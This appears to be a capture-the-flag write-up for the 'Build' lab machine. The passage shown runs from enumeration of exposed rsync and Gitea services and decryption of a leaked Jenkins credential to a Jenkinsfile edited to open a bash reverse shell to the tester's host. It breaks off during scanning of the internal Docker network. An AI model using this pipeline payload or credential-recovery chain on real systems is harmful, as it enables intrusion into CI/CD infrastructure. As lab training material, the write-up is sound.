<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />

Build is a Linux medium machine focused on abusing exposed DevOps infrastructure. The attack starts by enumerating a public Gitea repository and an open rsync backup that leaks a Jenkins home directory. From that backup, we recover Jenkins secrets and decrypt stored credentials to gain access to Gitea. With write permissions on the repository, we modify a Jenkins pipeline (Jenkinsfile) to achieve remote code execution inside a Jenkins container.

From there, we pivot into the internal Docker network, enumerate additional services, and compromise a PowerDNS-Admin instance by extracting and cracking credentials from its MySQL database. Finally, we abuse DNS control to hijack a trusted hostname referenced in `.rhosts`, allowing passwordless `rlogin` access as root on the host and retrieving the final flag.

<br />

# Enumeration:

<br />

We start by running an `nmap` scan to identify the open ports on the target:

<br />

```bash
❯ nmap -p- 10.129.234.169 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-08 17:56 CET
Nmap scan report for 10.129.234.169
Host is up (0.047s latency).
Not shown: 65489 closed tcp ports (reset), 39 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 47:21:73:e2:6b:96:cd:f9:13:11:af:40:c8:4d:d6:7f (ECDSA)
|_  256 2b:5e:ba:f3:72:d3:b3:09:df:25:41:29:09:f4:7b:f5 (ED25519)
53/tcp   open  domain  PowerDNS
| dns-nsid: 
|   NSID: pdns (70646e73)
|_  id.server: pdns
512/tcp  open  exec    netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  shell   Netkit rshd
873/tcp  open  rsync   (protocol version 31)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=d42d59cd04fd9e30; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=BVCyVt7uKyFUp1jqpX5H-PWvcFQ6MTc2Nzg5MTM4MDM0OTMyMzg5NA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 08 Jan 2026 16:56:20 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2J1aWxkLnZsOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9idWlsZC52bDozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=2dbe926108bf86ec; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=OhAgaBmtJ4dlgmOykPiT6YzEy9k6MTc2Nzg5MTM4NjUzNTU2NTY4OQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 08 Jan 2026 16:56:26 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=1/8%Time=695FE1B4%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x2
SF:0text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad
SF:\x20Request")%r(GetRequest,383A,"HTTP/1\.0\x20200\x20OK\r\nCache-Contro
SF:l:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCon
SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_gite
SF:a=d42d59cd04fd9e30;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cook
SF:ie:\x20_csrf=BVCyVt7uKyFUp1jqpX5H-PWvcFQ6MTc2Nzg5MTM4MDM0OTMyMzg5NA;\x2
SF:0Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opti
SF:ons:\x20SAMEORIGIN\r\nDate:\x20Thu,\x2008\x20Jan\x202026\x2016:56:20\x2
SF:0GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"them
SF:e-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=devi
SF:ce-width,\x20initial-scale=1\">\n\t<title>Gitea:\x20Git\x20with\x20a\x2
SF:0cup\x20of\x20tea</title>\n\t<link\x20rel=\"manifest\"\x20href=\"data:a
SF:pplication/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRl
SF:YSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnR
SF:fdXJsIjoiaHR0cDovL2J1aWxkLnZsOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly
SF:9idWlsZC52bDozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nI
SF:iwic2l6ZXMiOiI1MTJ")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\
SF:n\r\n400\x20Bad\x20Request")%r(HTTPOptions,197,"HTTP/1\.0\x20405\x20Met
SF:hod\x20Not\x20Allowed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nSe
SF:t-Cookie:\x20i_like_gitea=2dbe926108bf86ec;\x20Path=/;\x20HttpOnly;\x20
SF:SameSite=Lax\r\nSet-Cookie:\x20_csrf=OhAgaBmtJ4dlgmOykPiT6YzEy9k6MTc2Nz
SF:g5MTM4NjUzNTU2NTY4OQ;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20Same
SF:Site=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Thu,\x2008\x20Ja
SF:n\x202026\x2016:56:26\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRe
SF:quest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/p
SF:lain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Req
SF:uest");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.96 seconds
```

<br />

### Open Ports:

- `Port 22` -> SSH

- `Port 53` -> DNS

- `Port 512` -> rexec 

- `Port 513` -> rlogin 

- `Port 514` -> rsh

- `Port 873` -> Rsync

- `Port 3000` -> HTTP


<br />

# HTTP - Port 3000 

<br />

The HTTP port is hosting a `Gitea` instance:

<br />



<br />

In the "Explore" section we can find a public repository named: `buildadm / dev`

<br />



<br />

The repository contains a file named `Jenkinsfile` and a single commit:

<br />



<br />

This file has the default structure of a `Jenkins` pipeline:

<br />



<br />

Jenkins pipelines define automated build steps, which can be abused to execute arbitrary commands if an attacker gains write access.

We attempted to authenticate to the `buildadm` account using common credentials, without success. Let's continue enumerating.

<br />

# Rsync - Port 873

<br />

The `rsync` service exposes a single module: `backups`

<br />

```bash
❯ rsync --list-only rsync://10.129.234.169/
backups
```

<br />

This directory contains a tar file:

<br />

```bash
❯ rsync --list-only rsync://10.129.234.169/backups
drwxr-xr-x          4.096 2024/05/02 15:26:31 .
-rw-r--r--    376.289.280 2024/05/02 15:26:19 jenkins.tar.gz
```

<br />

We proceed to download it to our current directory running:

⚠️ Note: It can take a few minutes.

<br />

```bash
❯ rsync -av rsync://10.129.234.169/backups/jenkins.tar.gz .
receiving incremental file list
jenkins.tar.gz

sent 43 bytes  received 376.381.250 bytes  976.345,77 bytes/sec
total size is 376.289.280  speedup is 1,00
```

<br />

Once downloaded, we extract its content:

<br />

```bash
tar -xf jenkins.tar.gz
```

<br />

Several files were extracted inside a directory named: `jenkins_configuration`.

<br />

```bash
❯ ls -l
drwxr-xr-x root root  24 B  Wed May  1 20:02:21 2024  caches
drwxr-xr-x root root   8 B  Thu May  2 15:25:17 2024  fingerprints
drwxr-xr-x root root  10 B  Thu May  2 15:24:34 2024  jobs
drwxr-xr-x root root 158 B  Thu May  2 12:02:37 2024  logs
drwxr-xr-x root root   0 B  Wed May  1 15:46:11 2024  nodes
drwxr-xr-x root root 6.4 KB Wed May  1 19:52:04 2024  plugins
drwx------ root root 604 B  Thu May  2 15:25:39 2024  secrets
drwxr-xr-x root root 222 B  Wed May  1 15:54:36 2024  updates
drwxr-xr-x root root  20 B  Wed May  1 15:46:11 2024  userContent
drwxr-xr-x root root  68 B  Wed May  1 15:55:41 2024  users
drwxr-xr-x root root 258 B  Wed May  1 15:46:10 2024  war
drwxr-xr-x root root  92 B  Thu May  2 15:25:24 2024  workspace
.rw-r--r-- root root 273 B  Thu May  2 15:24:19 2024  com.cloudbees.hudson.plugins.folder.config.AbstractFolderConfiguration.xml
.rw-r--r-- root root 1.7 KB Thu May  2 15:24:19 2024  config.xml
.rw-r--r-- root root 1.8 KB Thu May  2 15:20:54 2024  copy_reference_file.log
.rw-r--r-- root root 156 B  Thu May  2 15:21:01 2024  hudson.model.UpdateCenter.xml
.rw-r--r-- root root 238 B  Thu May  2 15:24:19 2024  hudson.plugins.build_timeout.global.GlobalTimeOutConfiguration.xml
.rw-r--r-- root root 250 B  Thu May  2 15:24:19 2024  hudson.plugins.build_timeout.operations.BuildStepOperation.xml
.rw-r--r-- root root 629 B  Thu May  2 15:24:19 2024  hudson.plugins.git.GitSCM.xml
.rw-r--r-- root root 370 B  Wed May  1 15:54:37 2024  hudson.plugins.git.GitTool.xml
.rw-r--r-- root root 382 B  Thu May  2 15:24:19 2024  hudson.plugins.timestamper.TimestamperConfig.xml
.rw-r--r-- root root 262 B  Thu May  2 15:24:19 2024  hudson.tasks.Mailer.xml
.rw-r--r-- root root  76 B  Thu May  2 15:24:19 2024  hudson.tasks.Shell.xml
.rw-r--r-- root root 216 B  Thu May  2 15:24:19 2024  hudson.triggers.SCMTrigger.xml
.rw------- root root 1.6 KB Wed May  1 15:54:36 2024  identity.key.enc
.rw-r--r-- root root 298 B  Thu May  2 15:24:19 2024  io.jenkins.plugins.junit.storage.JunitTestResultStorageConfiguration.xml
.rw-r--r-- root root 277 B  Thu May  2 15:24:19 2024  jenkins.fingerprints.GlobalFingerprintConfiguration.xml
.rw-r--r-- root root   5 B  Thu May  2 15:21:02 2024  jenkins.install.InstallUtil.lastExecVersion
.rw-r--r-- root root   5 B  Wed May  1 15:55:49 2024  jenkins.install.UpgradeWizard.state
.rw-r--r-- root root 159 B  Thu May  2 15:24:19 2024  jenkins.model.ArtifactManagerConfiguration.xml
.rw-r--r-- root root 253 B  Thu May  2 15:24:19 2024  jenkins.model.GlobalBuildDiscarderConfiguration.xml
.rw-r--r-- root root 259 B  Thu May  2 15:24:19 2024  jenkins.model.JenkinsLocationConfiguration.xml
.rw-r--r-- root root  86 B  Thu May  2 15:24:19 2024  jenkins.security.ResourceDomainConfiguration.xml
.rw-r--r-- root root 179 B  Thu May  2 15:24:19 2024  jenkins.tasks.filters.EnvVarsFilterGlobalConfiguration.xml
.rw-r--r-- root root 171 B  Wed May  1 15:46:11 2024  jenkins.telemetry.Correlator.xml
.rw-r--r-- root root 1.0 KB Thu May  2 15:21:02 2024  nodeMonitors.xml
.rw-r--r-- root root 431 B  Thu May  2 15:24:19 2024  org.jenkinsci.plugin.gitea.servers.GiteaServers.xml
.rw-r--r-- root root 169 B  Thu May  2 15:24:19 2024  org.jenkinsci.plugins.displayurlapi.DefaultDisplayURLProviderGlobalConfiguration.xml
.rw-r--r-- root root  46 B  Thu May  2 15:25:25 2024  org.jenkinsci.plugins.workflow.flow.FlowExecutionList.xml
.rw-r--r-- root root 169 B  Thu May  2 15:24:19 2024  org.jenkinsci.plugins.workflow.flow.GlobalDefaultFlowDurabilityLevel.xml
.rw-r--r-- root root 230 B  Thu May  2 15:24:19 2024  org.jenkinsci.plugins.workflow.libs.GlobalLibraries.xml
.rw-r--r-- root root 129 B  Wed May  1 20:03:07 2024  queue.xml.bak
.rw-r--r-- root root  64 B  Wed May  1 15:46:11 2024  secret.key
.rw-r--r-- root root   0 B  Wed May  1 15:46:11 2024  secret.key.not-so-secret
```

<br />

The directory structure matches a standard Jenkins home directory on Linux.

After spending some time searching for interesting information within this directory, we found an encrypted password:

<br />

```bash
❯ grep -ri "<password>"
jobs/build/config.xml:              <password>{AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=}</password>
```

<br />

This seems to be an encrypted password, to further analyze it, so we inspect the contents of `config.xml`:

<br />

```bash
❯ /usr/bin/cat jobs/build/config.xml
<?xml version='1.1' encoding='UTF-8'?>
<jenkins.branch.OrganizationFolder plugin="branch-api@2.1163.va_f1064e4a_a_f3">
  <actions/>
  <description>dev</description>
  <displayName>dev</displayName>
  <properties>
    <jenkins.branch.OrganizationChildHealthMetricsProperty>
      <templates>
        <com.cloudbees.hudson.plugins.folder.health.WorstChildHealthMetric plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
          <nonRecursive>false</nonRecursive>
        </com.cloudbees.hudson.plugins.folder.health.WorstChildHealthMetric>
      </templates>
    </jenkins.branch.OrganizationChildHealthMetricsProperty>
    <jenkins.branch.OrganizationChildOrphanedItemsProperty>
      <strategy class="jenkins.branch.OrganizationChildOrphanedItemsProperty$Inherit"/>
    </jenkins.branch.OrganizationChildOrphanedItemsProperty>
    <jenkins.branch.OrganizationChildTriggersProperty>
      <templates>
        <com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
          <spec>H H/4 * * *</spec>
          <interval>86400000</interval>
        </com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger>
      </templates>
    </jenkins.branch.OrganizationChildTriggersProperty>
    <com.cloudbees.hudson.plugins.folder.properties.FolderCredentialsProvider_-FolderCredentialsProperty plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain plugin="credentials@1337.v60b_d7b_c7b_c9f">
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl plugin="credentials@1337.v60b_d7b_c7b_c9f">
              <id>e4048737-7acd-46fd-86ef-a3db45683d4f</id>
              <description></description>
              <username>buildadm</username>
              <password>{AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.hudson.plugins.folder.properties.FolderCredentialsProvider_-FolderCredentialsProperty>
    <jenkins.branch.NoTriggerOrganizationFolderProperty>
      <branches>.*</branches>
      <strategy>NONE</strategy>
    </jenkins.branch.NoTriggerOrganizationFolderProperty>
  </properties>
  <folderViews class="jenkins.branch.OrganizationFolderViewHolder">
    <owner reference="../.."/>
  </folderViews>
  <healthMetrics/>
  <icon class="jenkins.branch.MetadataActionFolderIcon">
    <owner class="jenkins.branch.OrganizationFolder" reference="../.."/>
  </icon>
  <orphanedItemStrategy class="com.cloudbees.hudson.plugins.folder.computed.DefaultOrphanedItemStrategy" plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
    <pruneDeadBranches>true</pruneDeadBranches>
    <daysToKeep>-1</daysToKeep>
    <numToKeep>-1</numToKeep>
    <abortBuilds>false</abortBuilds>
  </orphanedItemStrategy>
  <triggers>
    <com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
      <spec>* * * * *</spec>
      <interval>60000</interval>
    </com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger>
  </triggers>
  <disabled>false</disabled>
  <navigators>
    <org.jenkinsci.plugin.gitea.GiteaSCMNavigator plugin="gitea@1.4.7">
      <serverUrl>http://172.18.0.2:3000</serverUrl>
      <repoOwner>buildadm</repoOwner>
      <credentialsId>e4048737-7acd-46fd-86ef-a3db45683d4f</credentialsId>
      <traits>
        <org.jenkinsci.plugin.gitea.BranchDiscoveryTrait>
          <strategyId>1</strategyId>
        </org.jenkinsci.plugin.gitea.BranchDiscoveryTrait>
        <org.jenkinsci.plugin.gitea.OriginPullRequestDiscoveryTrait>
          <strategyId>1</strategyId>
        </org.jenkinsci.plugin.gitea.OriginPullRequestDiscoveryTrait>
        <org.jenkinsci.plugin.gitea.ForkPullRequestDiscoveryTrait>
          <strategyId>1</strategyId>
          <trust class="org.jenkinsci.plugin.gitea.ForkPullRequestDiscoveryTrait$TrustContributors"/>
        </org.jenkinsci.plugin.gitea.ForkPullRequestDiscoveryTrait>
      </traits>
    </org.jenkinsci.plugin.gitea.GiteaSCMNavigator>
  </navigators>
  <projectFactories>
    <org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProjectFactory plugin="workflow-multibranch@773.vc4fe1378f1d5">
      <scriptPath>Jenkinsfile</scriptPath>
    </org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProjectFactory>
  </projectFactories>
  <buildStrategies/>
  <strategy class="jenkins.branch.DefaultBranchPropertyStrategy">
    <properties class="empty-list"/>
  </strategy>
</jenkins.branch.OrganizationFolder>
```

<br />

As we can see, the file contains more than just an encrypted password. We also noticed that these credentials are used to authenticate against the Gitea instance.

<br />

```bash
 <org.jenkinsci.plugin.gitea.GiteaSCMNavigator plugin="gitea@1.4.7">
      <serverUrl>http://172.18.0.2:3000</serverUrl>
      <repoOwner>buildadm</repoOwner>
      <credentialsId>e4048737-7acd-46fd-86ef-a3db45683d4f</credentialsId>
      <traits>
```

<br />

## Decrypting Jenkins Credentials

<br />

This is a common Jenkins misconfiguration when backup files are exposed.

This type of password can be easily decrypted. However, to do this we need to access the `master.key` and `hudson.util.Secret` Jenkins secrets.

Fortunately for us, these files are present under the `/secrets` folder:

<br />

```bash
❯ ls -l secrets/master.key
.rw-r--r-- root root 256 B Wed May  1 15:46:11 2024  secrets/master.key
❯ ls -l secrets/hudson.util.Secret
.rw-r--r-- root root 272 B Wed May  1 19:51:20 2024  secrets/hudson.util.Secret
```

<br />

To decrypt the password we will use the following [GitHub repository](https://github.com/hoto/jenkins-credentials-decryptor).

Before execution, we need to have the three files in the current directory:

- master.key

- hudson.util.Secret 

- config.xml

After that, the program is straightforward to run:

<br />

```bash
❯ ./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml
[
  {
    "id": "e4048737-7acd-46fd-86ef-a3db45683d4f",
    "password": "Git1234!",
    "username": "buildadm"
  }
]
```

<br />

With these credentials we can log into the `Gitea` instance as the user `buildadm`:

<br /> 



<br />

# Remote Code Execution via Jenkinsfile 

<br />

At this point, we manipulate the previously identified Jenkins pipeline in order to execute arbitrary commands on the target system.

First, we start a listener:

<br />

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
```

<br />

Then, we access the `dev` repository to replace the `Jenkinsfile` with the following code:

<br />

```groovy
pipeline {
    agent any

    stages {
        stage('Do nothing') {
            steps {
                sh 'bash -c "bash -i >& /dev/tcp/10.10.14.253/443 0>&1"'
            }
        }
    }
}
```

<br />

At the bottom there is the "Commit Changes" section to save our modifications.

<br />



<br />

After waiting a few seconds:

<br />

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.234.169 50108
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main# id
id
uid=0(root) gid=0(root) groups=0(root)
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main#
```

<br />

We received a reverse shell as the root user inside the Jenkins container, confirming remote code execution through the CI/CD pipeline.

We know we are inside a container because of the random alphanumeric string as the hostname:

<br />

```bash
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main# hostname
5ac6c7d6fb8e
```

<br />

After further enumeration, we did not find any useful credentials or privileged secrets inside the container.

<br />

### rhosts

<br />

The most interesting is a `rhosts` file inside the `/root` directory.

<br />

```bash
root@5ac6c7d6fb8e:~# cat .rhosts 
admin.build.vl +
intern.build.vl +
```

<br />

This file defines trusted hosts that are allowed to authenticate via `rlogin/rsh` without a password (depending on the service configuration).

<br />

## Internal Network

<br />

One peculiarity of this machine is that it has an internal network. In my case, I had never before seen a machine on HackTheBox that required you to enumerate an internal network, so it took me a bit by surprise when I solved the machine for the first time.

To enumerate this network we will bring the following [Nmap](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) static binary to the container. 

We also copied an `/etc/services` file into the container so Nmap can resolve service names correctly.

<br />

```bash
curl http://10.10.14.253/nmap -o nmap
curl http://10.10.14.253/services -o /etc/services
```

<br />

Now, we can run a basic `nmap` scan to discover the internal network:

<br />

```bash
root@5ac6c7d6fb8e:/tmp/test# ./nmap 172.18.0.0/24 --min-rate 5000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2026-01-09 11:30 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.18.0.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000021s latency).
Not shown: 1148 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
873/tcp  open  rsync
3306/tcp open  mysql
8081/tcp open  tproxy
MAC Address: 02:42:F7:1A:3A:15 (Unknown)

Nmap scan report for gitea.custom (172.18.0.2)
Host is up (0.000032s latency).
Not shown: 1155 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap scan report for pdns-db-1.custom (172.18.0.4)
Host is up (0.000031s latency).
Not shown: 1155 closed ports
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:AC:12:00:04 (Unknown)

Nmap scan report for pdns-pdns-1.custom (172.18.0.5)
Host is up (0.000032s latency).
Not shown: 1154 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
8081/tcp open  tproxy
MAC Address: 02:42:AC:12:00:05 (Unknown)

Nmap scan report for powerdns_admin.custom (172.18.0.6)
Host is up (0.000033s latency).
Not shown: 1155 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:12:00:06 (Unknown)

Nmap scan report for 5ac6c7d6fb8e (172.18.0.3)
Host is up (0.000018s latency).
Not shown: 1155 closed ports
PORT     STATE SERVICE
8080/tcp open  http-alt

